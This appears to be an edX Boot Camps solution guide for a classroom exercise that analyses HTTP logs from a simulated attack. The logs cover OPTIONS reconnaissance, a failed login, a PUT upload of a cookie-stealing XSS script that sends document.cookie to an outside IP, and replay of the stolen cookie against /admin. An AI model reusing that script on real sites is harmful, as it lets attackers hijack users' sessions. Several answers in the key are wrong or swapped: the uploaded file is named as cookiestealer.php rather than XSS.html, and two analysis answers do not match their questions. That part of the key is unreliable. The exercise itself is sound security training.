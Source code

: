 ## Solution Guide: HTTP Requests and Responses

The goal of this activity was to combine skills in research and critical thinking to investigate the HTTP sequences of a web attack on your company's servers.

---

**Note:** While we can't be absolutely sure about what happened due to the corrupted logs, these are good guesses based on the information we have.

1. The following partial response was sent to the suspicious IP address. The request was completely lost and unrecoverable.


   **HTTP Response 1**

     ```HTTP
     HTTP/1.1 200 OK
     Date: Tue, 25 Sep 2018 21:21:20 GMT
     Server: Apache/2.2.21 (Unix mod_ssl/2.2.21 OpenSSL/1.0.0k DAV/2 PHP/5.4.3)
     WWW-Authenticate: Cookie realm="fakesite"
     Allow: OPTIONS, GET, POST, HEAD, PUT
     ```

    **Question:** What kind of request was used here that would cause an HTTP server to tell the client all of the HTTP request methods it will respond to?

    - Solution: They used the OPTIONS method here. This was the attacker's reconnaissance phase, in which they determined all available HTTP methods that can be requested to the HTTP server.

   **Analysis:** Do you think this HTTP request method can be used by an attacker to gather information about an HTTP server? Why or why not?

   - Solution: The OPTIONS method is useful for an attacker to find out what kind of request methods they can leverage while attempting to compromise an HTTP server.

2. The system admins report some corrupted HTTP traffic that occurred before the following recovered response:

   **HTTP Response 2**

     ```HTTP
     HTTP/1.1 401 Unauthorized
     WWW-Authenticate: Cookie realm="fakesite"
             form-action="/login"
             cookie-name=AUTH-COOKIE
     Content-Type: text/html

     <title>Unauthorized</title>
     <form action="/login" method=POST>
     <input type=hidden name=referer value="/fakesite/">
     <p><label>Username: <input name=user></label>
     <p><label>Password: <input name=pwd type=password></label>
     <p><button type=submit>Sign in</button>
     <p><a href="/register">Register for an account</a>
     </form>
     ```

    **Questions:** 
      - What status code was returned in this response?

        - Solution: 401.

      - According to the response body, what kind of method was used to generate this HTTP response?

        - Solution: While we don't see the request, we can tell the attacker attempted to log into the login portal with a POST request.

     - What sort of information was input to this HTTP request?

         - Solution: The response body shows a username and password being entered into the webpage. The response status code 401 error indicates an invalid authorization attempt.

    **Analysis:** Based on the information gathered from the status code and response body, what did the attacker try to do? Were they successful? 

    - Solution:  While we can't see the request, we can tell the attacker attempted to log into the login portal with a POST request. The response body shows a username and password being entered into the webpage while the the response error status code 401 indicates an invalid authorization attempt.

3. The following HTTP request and response were also recovered:

   **HTTP Request 1**

     ```HTTP
     PUT /XSS.html HTTP/1.1
     User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
     Host: www.fakesite.com/blog

     <script type="text/javascript">
     document.location='http://133.7.13.37/cookiestealer.php?c='+document.cookie;
     </script>
     ```

   **HTTP Response 3**

     ```HTTP
     HTTP/1.1 201 Created
     Date: Mon, 05 May 2014 12:28:53 GMT
     Server: Apache/2.2.14 (Win32)
     Content-type: text/html
     Content-length: 30
     Connection: Closed
     ```

   **Questions:** 
      - What type of method was used in the request?
         - Solution: The attacker used the PUT method.

      - What file name was uploaded to the site, according to the request body?
        - Solution: `cookiestealer.php`.

   **Analysis:** 
      - Based on the request method and request body, what do you think happened here? 
      
        **Hint:** Google the term "XSS" if you need help.

        - Solution: The attacker could not inject XSS code without uploading a file with it.
    
      - How did the server respond?

        - Solution: The attacker used the PUT method to upload a cross-site script to steal the cookies of users and send the cookies to their own server.

4. The next partial request and header was received by your HTTP server. The data after this log was completely lost:

   **HTTP Request 4**

     ```HTTP
     GET https://www.fakesite.com/admin HTTP/1.1
     Cookie: $Version="1"; AUTH-COOKIE="sdf354s5c1s8e1s"; $Path="/admin"
     ```

   **Question:** Look back at the previous response (HTTP Response 3). What does the header indicate in this GET request?
    
    - Solution: Based on HTTP Response 3, the attacker was able to obtain a victims cookie and use it in a subsequent request.

    **Analysis:** Is there anything interesting about the URL requested?
    
    - Solution: Looking at HTTP Request 4, it's clear that the attacker stole a cookie and was able to log into the admin portal using a GET request with stolen cookies set in the header.

--- 
&copy; 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.

